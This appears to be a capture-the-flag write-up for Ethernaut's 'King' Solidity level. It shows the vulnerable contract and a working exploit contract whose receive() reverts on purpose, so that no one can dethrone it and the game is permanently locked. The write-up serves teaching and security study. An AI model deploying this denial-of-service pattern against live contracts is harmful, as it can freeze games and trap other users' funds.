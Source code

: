 # King

## Challenge Description

The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD

Such a fun game. Your goal is to break it.

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

## Challenge Solution Walkthrough

In this challenge, the goal is to become the `king` of the contract and prevent others from becoming the `king` by making the contract revert any transactions that send Ether to it.

To achieve this, we can deploy a separate contract that will handle the process of becoming the `king`. This contract will not accept any Ether and will revert any transaction that sends Ether to it.

Here's an example of a contract, named `KingSolution`, that can be deployed for this purpose:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

error RevertOnPurpose();
error PaymentFailed();

contract KingSolution {
    address public kingContract;

    constructor(address kingContractAddress) {
        kingContract = kingContractAddress;
    }

    function solveChallenge() public payable {
        (bool success, ) = payable(kingContract).call{ value: msg.value }("");
        if (success == false) revert PaymentFailed();
    }

    receive() external payable {
        revert RevertOnPurpose();
    }
}
```

In the `solveChallenge()` function of this contract, we forward any received Ether to the `kingContract`. If the transaction fails, we revert with a custom error `PaymentFailed`.

The `receive()` function is marked as `external payable`, which means it can receive Ether. However, it is implemented to revert on purpose using the `revert RevertOnPurpose()` statement.

To solve the challenge, we deploy this `KingSolution` contract and provide the address of the original `king` contract as a constructor argument. Then, we execute the `solveChallenge()` function of the `KingSolution` contract.

By doing so, we become the `king` of the original contract, and since the `KingSolution` contract reverts any transaction that sends Ether, we prevent others from becoming the `king`.

Congratulations! You have successfully completed the challenge.

## Challenge Description After Solving

Most of Ethernaut's levels try to expose (in an oversimplified form of course) something that actually happened — a real hack or a real bug.

In this case, see: [King of the Ether](https://www.kingoftheether.com/thrones/kingoftheether/index.html) and [King of the Ether Postmortem](http://www.kingoftheether.com/postmortem.html).
